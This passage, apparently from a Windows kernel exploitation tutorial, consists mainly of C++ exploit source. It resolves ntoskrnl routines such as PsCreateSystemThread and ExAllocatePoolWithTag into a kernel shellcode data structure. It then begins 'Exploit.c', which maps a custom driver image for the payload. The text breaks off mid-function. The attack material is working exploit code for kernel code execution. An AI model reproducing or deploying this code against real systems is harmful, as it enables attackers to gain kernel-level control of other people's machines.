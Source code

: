 ```C++
	PVOID ExAllocatePoolWithTag = (void*)GetProcAddress(hNtoskrnl, "ExAllocatePoolWithTag");
	PRINTA("\t[V] --> GetProcAddress ExAllocatePoolWithTag at %p\n", ExAllocatePoolWithTag);
	g_BeepIRPShellcodeData->nt_ExAllocatePoolWithTag = (PVOID)(dwNtosKrnlBase + (DWORD64)ExAllocatePoolWithTag - (DWORD64)hNtoskrnl);
	PRINTA("\t[V] --> nt!ExAllocatePoolWithTag at %p\n", g_BeepIRPShellcodeData->nt_ExAllocatePoolWithTag);

	PVOID PsCreateSystemThread = (void*)GetProcAddress(hNtoskrnl, "PsCreateSystemThread");
	PRINTA("\t[V] --> GetProcAddress PsCreateSystemThread at %p\n", PsCreateSystemThread);
	g_BeepIRPShellcodeData->nt_PsCreateSystemThread = (NTSTATUS(*)(PHANDLE ThreadHandle, ULONG DesiredAccess, void* ObjectAttributes, HANDLE ProcessHandle, void* ClientId, void* StartRoutine, PVOID StartContext))(dwNtosKrnlBase + (DWORD64)PsCreateSystemThread - (DWORD64)hNtoskrnl);
	PRINTA("\t[V] --> nt!PsCreateSystemThread at %p\n", g_BeepIRPShellcodeData->nt_PsCreateSystemThread);

	PVOID IofCompleteRequest = (void*)GetProcAddress(hNtoskrnl, "IofCompleteRequest");
	PRINTA("\t[V] --> GetProcAddress IofCompleteRequest at %p\n", IofCompleteRequest);
	g_BeepIRPShellcodeData->nt_IofCompleteRequest = (PVOID)(dwNtosKrnlBase + (DWORD64)IofCompleteRequest - (DWORD64)hNtoskrnl);
	PRINTA("\t[V] --> nt!IofCompleteRequest at %p\n", g_BeepIRPShellcodeData->nt_IofCompleteRequest);

	PRINTA("[+] Processing Function Pointers Success! \n");
	PRINTA("[+] ------------------------------------------------------\n");

	return TRUE;

}
```

The output of the code is shown below:

{{< figure src="/images/x508.png" class="center" >}}

We also need to update the IAT of the PE file to execute the position independent code once we call the kernel thread. The following code illustrates how this process is carried out in practice. First we map the custom driver including the IRP handler into memory, resolve all the sections and imports and finally retrieve all the function pointers required for our exploit code. 

```C++
// Exploit.c
BOOL APIENTRY ProcessShellcodeData(LPCSTR szPath) {
	int NonPagedPoolExecute = 0;

	PRINTA("[+] ------------------------------------------------------\n");
	PRINTA("[i] Mapping Driver PE File\n");


	LPVOID hFile = CreateFileA(szPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		PRINTA("Invalid handle when map PE file\n");
		return FALSE;
	}

	HANDLE hMapping = CreateFileMappingA(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, 0, NULL);

	if (!hMapping) {
		PRINTA("Cannot make file mapping\n");
		return FALSE;
	}

	LPVOID lpBase = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
	if (!lpBase) {
```